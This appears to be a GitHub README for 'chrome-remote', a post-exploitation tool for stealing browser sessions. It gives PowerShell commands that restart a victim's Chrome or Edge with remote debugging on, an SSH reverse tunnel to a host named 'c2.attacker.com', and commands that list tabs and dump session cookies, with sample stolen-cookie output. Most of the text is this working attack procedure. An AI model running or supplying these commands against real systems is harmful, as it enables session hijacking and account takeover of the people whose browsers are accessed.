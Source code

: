 # chrome-remote

> Utility for Google Chrome and Microsoft Edge Remote Debugging.

# Setup

Install with [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/chrome-remote.git
~~~

# Usage

Restart Chrome/Edge with remote debugging enabled.

~~~ powershell
Get-Process chrome | Stop-Process
Start-Process 'C:\Program Files\Google\Chrome\Application\chrome.exe' -ArgumentList '--user-data-dir="C:\Users\jdoe\AppData\Local\Google\Chrome\User Data" --restore-last-session --remote-debugging-port=9222'
~~~

~~~ powershell
Get-Process msedge | Stop-Process
Start-Process 'C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe' -ArgumentList '--user-data-dir="C:\Users\jdoe\AppData\Local\Microsoft\Edge\User Data" --restore-last-session --remote-debugging-port=9222'
~~~

Forward `localhost:9222` back to your attacker machine.

~~~ powershell
ssh.exe -R 127.0.0.1:9222:127.0.0.1:9222 proxy@c2.attacker.com
~~~

List open tabs.

~~~
❯ chrome-remote list-tabs | jq -r '.[]'
{
  "title": "Example Domain",
  "url": "https://example.com/"
}
...
~~~

Dump session cookies.

~~~
❯ chrome-remote dump-cookies | jq -r '.[]|select(.domain == "example.com")'
{
  "name": "sessid",
  "value": "SFE0R1REZFF0NFZCVTlMbEdSTEN5QXcxZloyS0tDVDg=",
  "domain": "example.com",
  "path": "/",
  "expires": -1,
  "size": 44,
  "httpOnly": true,
  "secure": true,
  "session": true,
  "sameSite": "None",
  "priority": "Medium",
  "sameParty": false,
  "sourceScheme": "Secure",
  "sourcePort": 443
}
...
~~~

# References

- [Stealing Chrome cookies without a password](http://web.archive.org/web/20240616123506/https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)
- [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely](http://web.archive.org/web/20240521025448/https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
- [Hands in the Cookie Jar: Dumping Cookies with Chromium’s Remote Debugger Port](http://web.archive.org/web/20240624212635/https://scribe.rip/@specterops/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
- [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [Chrome DevTools Protocol Documentation](https://chromedevtools.github.io/devtools-protocol/tot/Storage/)
